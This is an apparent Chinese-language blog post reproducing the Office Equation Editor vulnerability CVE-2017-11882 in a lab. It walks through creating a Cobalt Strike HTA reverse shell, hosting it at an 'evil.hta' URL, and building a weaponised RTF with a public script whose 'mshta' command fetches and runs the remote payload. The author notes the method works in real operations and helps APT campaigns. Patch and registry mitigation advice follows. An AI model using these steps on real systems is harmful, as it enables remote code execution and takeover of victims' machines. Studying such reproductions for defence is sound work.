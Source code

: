 ```yaml
---
layout: post
title:  "CVE-2017-11882漏洞复现"
date:   2017-11-21
categories: 漏洞复现
permalink: /archivers/2017-11-21/1
description: "本文记录一下针对CVE-2017-11882的漏洞复现"
---
```

本文记录一下针对CVE-2017-11882的漏洞复现
<!--more-->

* 目录
{:toc}

## 0x00 前言

参考backlion师傅的PDF，记录一下这个过程。

2017年11月14日，微软发布了11月份的安全补丁更新，其中比较引人关注的莫过于悄然修复了潜伏17年之久的Office远程代码执行漏洞（CVE-2017-11882）。该漏洞为Office内存破坏漏洞，影响目前流行的所有Office版本。攻击者可以利用漏洞以当前登录的用户的身份执行任意命令。
由于漏洞影响面较广，漏洞披露后，金睛安全研究团队持续对漏洞相关攻击事件进行关注。11月19日，监控到了已有漏洞POC在网上流传，随即迅速对相关样本进行了分析。目前该样本全球仅微软杀毒可以检测。

* 漏洞影响版本：
* Office 365
* Microsoft Office 2000      
* Microsoft Office 2003      
* Microsoft Office 2007 Service Pack 3
* Microsoft Office 2010 Service Pack 2
* Microsoft Office 2013 Service Pack 1
* Microsoft Office 2016

## 0x01 环境清单

* WindowsServer 2008 (192.168.3.114)
* Office 2007
* MAC OSX(192.168.3.106)

## 0X02 复现过程

### 使用Cobalt Strike生成hta反弹shell

![生成](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-21/2017-11-21-0x00.png)

将生成的hta文档放入WebServer根目录：http://192.168.3.106/evil.hta

我(Cobalt Strike)本地监听了一个8081端口，用来接收客户端的Shell


### 生成一个rtf/doc文档

github上已有生成脚本

`webdav_exec_CVE-2017-11882.py` 地址： http://payloads.online/tools/cve-2017-11882/webdav_exec_CVE-2017-11882.py

生成rtf文档：

```
python webdav_exec_CVE-2017-11882.py -u http://192.168.3.106/evil.hta -e "mshta http://192.168.3.106/evil.hta" -o test.rtf
!!! Completed !!!
```

最后将test.rtf在目标机器上执行 `=_=||`，其实可以实战的，对于APT的帮助很大

### 结果

目标机器上执行后，我们可以在Cobalt Strike看到来自客户端的会话

![shell](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-21/2017-11-21-0x01.png)


## 0x03 修复建议

1、微软已经对此漏洞做出了修复。

* 下载`https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882`  更新补丁进行修补
*  开启Windows Update功能，定期对系统进行自动更新

2、由于该公式编辑器已经17年未做更新，可能存在大量安全漏洞，建议在注册表中取消该模块的注册。

* 按下Win R组合键，打开cmd.exe
* 输入以下两条命令：
`reg add  “HKLM\SOFTWARE\Microsoft\Office\Common\COM Compatibility\{0002CE02-0000-0000-C000-000000000046} ” /v “Compatibility  Flags”  /t  REG_DWORD /d    0x400`



